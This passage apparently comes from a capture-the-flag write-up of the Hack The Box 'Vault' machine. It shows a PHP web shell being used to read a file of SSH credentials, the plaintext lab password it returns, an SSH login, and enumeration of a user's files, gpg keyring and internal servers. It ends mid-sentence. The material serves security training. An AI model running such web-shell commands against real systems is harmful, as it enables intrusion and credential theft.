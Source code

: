 The `ssh` file contains plaintext credentials:

**http://vault.htb/sparklays/design/uploads/shell.php5?cmd=cat%20/home/dave/Desktop/ssh**
```
dave
Dav3therav3123
```

### Shell access

Using the SSH credentials we found in Dave's directory we can now log in:

```
root@ragingunicorn:~/hackthebox/Machines/Vault# ssh dave@10.10.10.109
dave@10.10.10.109's password:

Last login: Sat Nov  3 19:59:05 2018 from 10.10.15.233
dave@ubuntu:~$
```

The `~/Desktop` directory contains a couple of interesting files:

```
dave@ubuntu:~/Desktop$ ls -l
total 12
-rw-rw-r-- 1 alex alex 14 Jul 17 10:31 key
-rw-rw-r-- 1 alex alex 74 Jul 17 10:30 Servers
-rw-rw-r-- 1 alex alex 20 Jul 17 10:31 ssh

dave@ubuntu:~/Desktop$ cat key
itscominghome

dave@ubuntu:~/Desktop$ cat Servers
DNS + Configurator - 192.168.122.4
Firewall - 192.168.122.5
The Vault - x

dave@ubuntu:~/Desktop$ cat ssh
dave
Dav3therav3123
```

The user also has a gpg keyring:

```
dave@ubuntu:~/.gnupg$ ls -l
total 28
drwx------ 2 dave dave 4096 Jul 17  2018 private-keys-v1.d
-rw------- 1 dave dave 2205 Jul 24  2018 pubring.gpg
-rw------- 1 dave dave 2205 Jul 24  2018 pubring.gpg~
-rw------- 1 dave dave  600 Sep  3  2018 random_seed
-rw------- 1 dave dave 4879 Jul 24  2018 secring.gpg
-rw------- 1 dave dave 1280 Jul 24  2018 trustdb.gpg
```

Based on the `Servers` file it seems there are other VMs or containers running. We can confirm this also by checking the network interfaces (there's a virtual bridge interface with the same subnet mentionned in the `Server` file:
